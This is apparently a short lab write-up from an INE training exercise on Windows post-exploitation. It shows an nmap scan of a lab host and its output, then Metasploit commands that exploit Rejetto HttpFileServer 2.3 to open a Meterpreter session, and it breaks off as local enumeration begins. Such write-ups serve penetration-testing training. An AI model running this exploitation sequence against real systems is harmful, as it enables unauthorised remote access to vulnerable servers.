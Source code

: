 # 🔬Windows Post-Exploitation

> 🔬 INE LAB
>
> * Target IP: `10.0.29.108`
> * **Local Windows Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation <a href="#enumeration-and-exploitation" id="enumeration-and-exploitation"></a>

```bash
nmap -sV 10.0.29.108
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49175/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

```bash
searchsploit rejetto
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
setg RHOSTS 10.0.29.108
run
	meterpreter >
```

## Local Enumeration <a href="#local-enumeration" id="local-enumeration"></a>

### System Information <a href="#system-information" id="system-information"></a>

* In the **`Meterpreter`** session
